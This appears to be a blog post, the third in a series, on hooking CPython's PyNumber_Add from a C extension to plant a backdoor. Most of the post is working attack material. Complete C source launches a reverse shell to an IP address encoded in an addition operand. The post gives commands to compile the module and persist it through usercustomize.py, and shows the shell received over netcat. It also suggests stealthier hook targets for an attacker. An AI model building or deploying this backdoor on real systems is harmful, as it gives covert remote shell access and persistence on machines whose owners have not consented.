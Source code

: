 ```yaml
---
title: 'Sneaky Snek: Messing with Python''s Internal Functions (Part III)'
date: 2023-07-04 01:02:15
tags:
- python
- tech
- hacking
---
```


We're back with another part of the series!

In the [Previous Part](2023/07/03/Sneaky-Snek-Messing-with-Python-s-Internal-Functions-Part-II/), we've hooked `PyNumber_Add` function using `ctypes` and replaced it with our own implementation.
In this part, we will extend our extension to a backdoor that will return a reverse shell given specific addition operands.

To the drawing board!

### The Plan
- Just like in the previous part, we will hook the `PyNumber_Add` function
- Our code will check if one of the operands is `0xdeadbeef`.
- If so, it will extract the other operand and use it as an IPv4 address
- It will then connect to the address on port 1337 and spawn a reverse shell

### Adding our trigger
In our previous implementation, after checking that both operands are integers, we added a check to see if they are both equal to `2`.
We will replace this check with a check to see if one of the operands is `0xdeadbeef`, and if so, we will extract the other operand and use it as an IPv4 address.
```C
unsigned int ipNum = 0;
char ip[16] = {0};

if (PyLong_Check(a) && PyLong_Check(b)) {
    if (PyLong_AsLong(a) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(b);
    }
    else if (PyLong_AsLong(b) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(a);
    }

    // Addition implementation
    // ...
}
// ...
```

### IP Extraction and Reverse shell
Since we have access to the Python C API, we have the freedom to run any Python code we want!

We will use the `os`, `socket` and `subprocess` modules to spawn a reverse shell. To avoid string formatting in C, we will use `strcat` to concatenate the strings. The IP address is extracted one byte at a time, using bit shifting and masking with `0xff` to get the lowest byte each time.

The reverse shell itself is a Python one-liner that uses `os.dup2` to duplicate the socket file descriptor to the standard input, output and error, and then uses `subprocess.call` to spawn a shell.

```C
char revShell[4096] = "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"";

// ...

if (ipNum != 0) {
    // Convert the IP address to a string
    snprintf(ip, sizeof(ip), "%d.%d.%d.%d", ipNum & 0xff, (ipNum >> 8) & 0xff, (ipNum >> 16) & 0xff, (ipNum >> 24) & 0xff);

    // Connect to the IP address on port 1337 and spawn a shell
    strcat(revShell, ip);
    strcat(revShell, "\",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);");
    PyRun_SimpleString(revShell);
}
```

And violà! We now have a backdoor that will spawn a reverse shell when the operands are `0xdeadbeef` and an IPv4 address.

### Putting it all together
```C
#include <Python.h>

PyObject* my_add(PyObject* a, PyObject* b) {
    unsigned long ipNum = 0;
    char ip[16] = {0};
    char revShell[4096] = "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('";

    // Increment the reference count of a and b
    Py_INCREF(a);
    Py_INCREF(b);

    // Check that a and b are both PyLongs
    if (!PyLong_Check(a) || !PyLong_Check(b)) {
        Py_DECREF(a);
        Py_DECREF(b);
        return Py_None;
    }

    // PyNumber_Subtract(a, b) is equivalent to a - b,
    // So we can calculate a + b by doing a - (-b).
    // We can get -b by multiplying b by -1.
    PyObject *minus_b = PyNumber_Multiply(b, PyLong_FromLong(-1));
    PyObject *result = PyNumber_Subtract(a, (PyObject*) minus_b);

    if (PyLong_AsLong(a) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(b);
    } else if (PyLong_AsLong(b) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(a);
    }
    
    if (ipNum != 0) {
        snprintf(ip, sizeof(ip), "%lu.%lu.%lu.%lu", (ipNum >> 24) & 0xFF, (ipNum >> 16) & 0xFF, (ipNum >> 8) & 0xFF, ipNum & 0xFF);
        strcat(revShell, ip);
        strcat(revShell, "',1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);");

        PyRun_SimpleString(revShell);
    }

    Py_DECREF(a);
    Py_DECREF(b);
    return result;
}
```

### Persistence
Python looks for a startup script in the `site-packages/usercustomize.py` file, so we can drop our script from the [Previous Part](2023/07/03/Sneaky-Snek-Messing-with-Python-s-Internal-Functions-Part-II/) there and it will be loaded automatically. Don't forget to edit the Python script and change the path to `my_add.so` to the correct path on your machine.

```bash
# Compile our backdoor module
gcc -shared -o my_add.so -fPIC my_add.c $(python3-config --includes --ldflags)

# Find the user site-packages directory
python -c "import site; print(site.USER_SITE)"

# Edit the script and change the path to `my_add.so` to the full path of `site-packages/my_add.so` on your machine
vim snek.py

# Copy the our script to `site-packages/sitecustomize.py`
cp snek.py /home/user/.local/lib/python3.8/site-packages/usercustomize.py
```

Now, let's test our backdoor!

### Testing
We'll listen on port 1337 using `nc`.
```bash
➜  ~ nc -vvlp 1337
Listening on astral 1337
```

Now let's perform a simple calculation and see what happens.
```bash
➜  ~ python3
Address of my_add: 0x7face7051276
Address of PyNumber_Add: 0x50f750
mprotect(addr=0x50f000, size=0x1000, perms=0x7) ret=0 errno=0
Address of shellcode trampoline: 0x7face6f90390
memmove: 0x50f750
1 + 1 = 2
2 + 2 = 4
Python 3.8.10 (default, May 26 2023, 14:05:08)
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 1 + 1
2
```

So far so good, but does our backdoor work? `0x7f000001` is hex for `127.0.0.1`, so let's try that!

```bash
>>> 0xdeadbeef + 0x7f000001
```

And we get a shell! Beautiful!
```bash
Connection received on localhost 34998
user@astral:~$ id
id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),1001(docker)
user@astral:~$ 
```

### Notes and Caveats
This is a proof of concept, and is not meant to be used in production (whatever "production" means for a backdoor, lol).

Here are some of the things that could go wrong with this implementation:
- I'm pretty sure the current implementation breaks a lot of things, such as the `+` operator for other types, but I haven't tested it extensively
- Thread safety is not guaranteed
- The `mprotect` call won't work on platforms with `W^X` memory protection
- `mprotect` won't work on Windows
- The shellcode trampoline won't work on platforms other than x86_64
- The inline hook is implemented in a very naive way, and overwrites the original function code of `PyNumber_Add`. A better way to implement the inline hook would be to use a trampoline, and jump to the original function code after we're done. This requires us to allocate a page of executable memory, and copy the original function code there, and then jump to it
- Alternatively, we can use a hooking library such as [subhook](https://github.com/Zeex/subhook)
- The reverse shell doesn't fork a child process, so the Python process will get stuck until the reverse shell exits, and `stdin` / `stdout` / `stderr` won't get redirected back to the user

Improvements and features that can be added:
- We can use `mmap()` to get a page of executable memory and load shellcode from memory, instead of using `CDLL` to load a shared library from disk
- The backdoor components and it's communication are not encrypted or obfuscated in any way
- A Python shell would be nice, instead of relying on `/bin/bash`
- As an attacker, there are better hook targets than `PyNumber_Add`, such as `socket.recv()`, which is guaranteed to be called with user input in a lot of places
- Another option is string formatting functions, which are also used everywhere and likely to be called with user input (thanks to [@HarpazDor](https://twitter.com/HarpazDor) for the suggestion!)

This was a really fun way to spend a weekend!
I hope you enjoyed reading this series as much as I enjoyed writing it, and maybe even learned something new along the way.

Ciao for now!

